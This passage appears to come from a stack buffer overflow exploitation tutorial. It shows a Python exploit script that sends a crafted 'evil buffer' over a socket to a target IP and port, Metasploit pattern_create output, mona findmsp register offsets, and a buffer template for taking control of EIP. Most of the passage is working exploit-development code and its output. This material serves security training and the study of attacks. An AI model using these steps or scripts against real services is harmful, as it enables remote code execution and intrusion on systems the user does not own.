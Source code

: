     buffer = prefix + overflow + retn + padding + payload + postfix
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    try:
        s.connect((ip, port))
        print("Sending evil buffer...")
        s.send(buffer + "\r\n")
        print("Done!")
    except:
        print("Could not connect.")

Using the buffer length which caused the crash, generate a unique buffer so we can determine the offset in the pattern which overwrites the EIP register, and the offset in the pattern to which other registers point. Create a pattern that is 400 bytes larger than the crash buffer, so that we can determine whether our shellcode can fit immediately. If the larger buffer doesn't crash the application, use a pattern equal to the crash buffer length and slowly add more to the buffer to find space.

.. code-block:: none

    $ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

While the unique buffer is on the stack, use mona's findmsp command, with the distance argument set to the pattern length.

.. code-block:: none

    !mona findmsp -distance 600
    ...
    [+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x005f3614 (length 600 bytes)
    Cyclic pattern (normal) found at 0x005f4a40 (length 600 bytes)
    Cyclic pattern (normal) found at 0x017df764 (length 600 bytes)
    EIP contains normal pattern : 0x78413778 (offset 112)
    ESP (0x017dfa30) points at offset 116 in normal pattern (length 484)
    EAX (0x017df764) points at offset 0 in normal pattern (length 600)
    EBP contains normal pattern : 0x41367841 (offset 108)
    ...

Note the EIP offset (112) and any other registers that point to the pattern, noting their offsets as well. It seems like the ESP register points to the last 484 bytes of the pattern, which is enough space for our shellcode.

Create a new buffer using this information to ensure that we can control EIP:

.. code-block:: none

    prefix = ""
    offset = 112
    overflow = "A" * offset
    retn = "BBBB"
    padding = ""
    payload = "C" * (600-112-4)
    postfix = ""
    